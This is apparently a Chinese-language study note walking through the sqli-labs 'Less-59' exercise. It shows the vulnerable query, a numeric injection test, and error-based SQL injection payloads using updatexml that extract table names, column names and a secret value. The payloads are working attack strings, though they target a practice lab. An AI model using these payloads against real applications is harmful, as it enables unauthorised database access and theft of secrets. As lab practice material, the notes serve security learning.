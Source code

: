 ```yaml
---
title: less59
url: https://www.yuque.com/u29002979/ep2zrx/ft8f4rxercwgdazg
---
```


```bash
$sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";
```

闭合方式数字型

`?id=1 and 1=1--+`
`?id=1 and 1=2--+` <a name="OK6A0"></a>

# 报错注入

```bash
爆破数据表
?id=-1 and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
数据表：codgf1m6wa

爆破字段名
?id=-1 and updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='codgf1m6wa'),0x7e),1) -- +
字段：secret_JGAS

获取密码
?id=-1 and updatexml(1,concat(0x7e,(select secret_JGAS from codgf1m6wa),0x7e),1) -- +
密码：JvKSBvmuHkWi8od1IZnHs94e
```

